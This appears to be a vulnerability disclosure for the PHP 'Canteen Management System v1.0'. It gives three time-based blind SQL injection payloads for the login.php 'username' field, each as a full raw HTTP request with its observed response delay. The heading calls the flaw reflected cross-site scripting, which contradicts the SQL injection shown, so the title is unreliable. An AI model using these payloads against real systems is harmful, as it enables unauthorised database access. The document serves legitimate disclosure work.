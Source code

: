 # Canteen Management System v1.0 by mayuri_k has Cross-site scripting (reflected)

BUG_Author: Dingzhi.Huang

vendors:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

Vulnerability File: /youthappam/youthappam/login.php/

Parameter "username" (POST), exists delayed injection vulnerability

Payload1: username=12' AND (SELECT 9725 FROM (SELECT(SLEEP(5)))abcd) AND 'qwer'='qwer&password=34&login=

```
POST /youthappam/youthappam/login.php HTTP/1.1
Host: localhost
Content-Length: 120
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/youthappam/youthappam/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: ci_session=e2rd852shtb8ln3qruscom3ubh61e7hs; PHPSESSID=op50rtk7p4u3f4hmp9vpfv7eta
Connection: close

username=12%27+AND+%28SELECT+9725+FROM+%28SELECT%28SLEEP%285%29%29%29abcd%29+AND+%27qwer%27%3D%27qwer&password=34&login=
```

SELECT(SLEEP(5)), The server response time is 5 seconds

![image](https://github.com/dynamohuang/pic/blob/main/5sec.png)

Payload2: username=12' AND (SELECT 9725 FROM (SELECT(SLEEP(10)))abcd) AND 'qwer'='qwer&password=34&login=

```
POST /youthappam/youthappam/login.php HTTP/1.1
Host: localhost
Content-Length: 121
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/youthappam/youthappam/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: ci_session=e2rd852shtb8ln3qruscom3ubh61e7hs; PHPSESSID=op50rtk7p4u3f4hmp9vpfv7eta
Connection: close

username=12%27+AND+%28SELECT+9725+FROM+%28SELECT%28SLEEP%2810%29%29%29abcd%29+AND+%27qwer%27%3D%27qwer&password=34&login=
```

SELECT(SLEEP(10)), The server response time is 10 seconds


![image](https://github.com/dynamohuang/pic/blob/main/10sec.png)

Payload3: username=12' AND (SELECT 9725 FROM (SELECT(SLEEP(15)))abcd) AND 'qwer'='qwer&password=34&login=

```
POST /youthappam/youthappam/login.php HTTP/1.1
Host: localhost
Content-Length: 121
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/youthappam/youthappam/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: ci_session=e2rd852shtb8ln3qruscom3ubh61e7hs; PHPSESSID=op50rtk7p4u3f4hmp9vpfv7eta
Connection: close

login=&password=34&username=12%27+AND+%28SELECT+9725+FROM+%28SELECT%28SLEEP%2815%29%29%29abcd%29+AND+%27qwer%27%3D%27qwer
```

SELECT(SLEEP(15)), The server response time is 15 seconds

![image](https://github.com/dynamohuang/pic/blob/main/15sec.png)
